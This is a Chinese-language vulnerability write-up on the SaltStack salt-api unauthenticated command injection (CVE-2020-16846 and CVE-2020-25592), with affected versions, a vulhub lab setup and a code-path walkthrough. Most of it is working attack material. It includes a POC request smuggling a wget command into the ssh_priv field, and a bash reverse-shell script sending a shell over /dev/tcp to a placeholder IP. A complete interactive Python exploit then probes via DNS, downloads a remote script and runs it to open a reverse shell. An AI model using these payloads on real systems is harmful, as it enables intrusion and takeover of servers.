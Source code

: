 # 

# SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

```
SaltStack Version 3002
SaltStack Version 3001.1, 3001.2
SaltStack Version 3000.3, 3000.4
SaltStack Version 2019.2.5, 2019.2.6
SaltStack Version 2018.3.5
SaltStack Version 2017.7.4, 2017.7.8
SaltStack Version 2016.11.3, 2016.11.6,2016.11.10
SaltStack Version 2016.3.4, 2016.3.6,2016.3.8
SaltStack Version 2015.8.10, 2015.8.13
```

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 **FileLocation:Classname.method()**

**salt/netapi/init.py:NetapiClient.run()**



![image-20220209124853209](./images/202202091248323.png)



low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给**kwargs。**

当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**



![image-20220209124914461](./images/202202091249520.png)



跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**



![image-20220209124937489](./images/202202091249560.png)



该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

**salt/client/ssh/init.py:SSH.__init__()**

![image-20220209124952459](./images/202202091249617.png)

priv的值从opts变量中获取，并调用salt.client.ssh.shell.gen_key()方法。

**salt/client/ssh/shell.py:gen_key()**

![image-20220209125009848](./images/202202091250910.png)

POC请求包为

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```

![image-20220209125029894](./images/202202091250968.png)



反弹shell的方法

先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![image-20220209125047143](./images/202202091250221.png)

监听端口，使用 **/bin/bash** 运行文件 反弹shell

![image-20220209125102862](./images/202202091251968.png)

## 漏洞POC

- POC目录中 peiqi.sh文件 需要更改反弹ip,port,并上传到服务器让目标进行下载
- DNS有响应则代表可能有漏洞，便可以进行反弹shell

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SaltStack Version < 2019.2.4 & < 3000.2                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.cn                                     \033[0m')
    print('+  \033[36mFile_addr   >>> http://xxx.xxx.xxx/cmd.sh                         \033[0m')
    print('+  \033[36mFile_name   >>> cmd.sh                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, dnslog):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget http://{}".format(dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget http://{} \033[0m".format(dnslog))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 请查看 Dnslog响应 \033[0m")
            while True:
                Chois = input("\033[35m是否反弹 Shell(Y/N) >>> \033[0m")
                if Chois == "Y" or Chois == "y":
                    File_addr = input("\033[35mFile_addr >>> \033[0m")
                    File_name = input("\033[35mFile_name >>> \033[0m")
                    POC_2(target_url, File_addr, File_name)
                else:
                    sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, File_addr, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget {}".format(File_addr)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget {} \033[0m".format(File_addr))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 成功下载{} \033[0m".format(File_addr))
            POC_3(target_url, File_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|/bin/bash {}".format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 /bin/bash \033[0m".format(File_name))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 命令执行完毕，请查看是否反弹Shell \033[0m".format(File_name))
            sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[32m[o] 命令执行成功 \033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, dnslog)
```



![image-20220209125138180](./images/202202091251259.png)



![image-20220209125156134](./images/202202091251218.png)

## 参考文章

https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
